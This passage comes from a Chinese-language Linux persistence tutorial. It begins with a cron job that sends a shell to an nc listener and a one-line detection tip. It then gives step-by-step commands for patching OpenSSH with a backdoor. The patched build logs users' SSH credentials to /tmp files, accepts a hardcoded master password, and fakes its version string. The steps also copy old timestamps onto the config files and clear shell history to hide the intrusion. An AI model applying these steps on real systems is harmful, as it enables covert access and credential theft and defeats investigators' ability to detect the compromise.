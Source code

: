 重启crond服务，`service crond restart`，然后就可以用nc接收shell。

![img](../..../../_img/04-Linux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81%EF%BC%88%E5%90%8E%E9%97%A8%E7%AF%87%EF%BC%89/1656917945628-defe033a-7771-4126-9f7d-dced2582ecec.png)



排查技巧：

```plain
# 查看可疑的定时任务列表
crontab -e
```



# 8、openssh后门

利用openssh后门，设置SSH后门密码及root密码记录位置，隐蔽性较强，不易被发现。

```plain
a、备份SSH配置文件
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old

b、解压并安装补丁
tar zxf openssh-5.9p1.tar.gz
tar zxf openssh-5.9p1.tar.gz
cp openssh-5.9p1.patch/sshbd5.9p1.diff  /openssh-5.9p1
cd openssh-5.9p1
patch < sshbd5.9p1.diff

c、记录用户名和密码的文件位置及其密码
vi  includes.h
	#define ILOG "/tmp/1.txt"             //记录登录本机的用户名和密码
	#define OLOG "/tmp/2.txt"             //记录本机登录远程的用户名和密码
	#define SECRETPW "123456789"          //后门的密码

d、修改版本信息
vi version.h
	#define SSH_VERSION "填入之前记下来的版本号,伪装原版本"
	#define SSH_PORTABLE "小版本号"
	
e、安装并编译
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make clean
make && make install
service sshd restart

f、对比原来的配置文件，使配置文件一致，然后修改文件日期。

touch -r  /etc/ssh/ssh_config.old /etc/ssh/ssh_config
touch -r  /etc/ssh/sshd_config.old /etc/ssh/sshd_config

g、清除操作记录
export HISTFILE=/dev/null
export HISTSIZE=0
echo >/root/.bash_history //清空操作日志
```
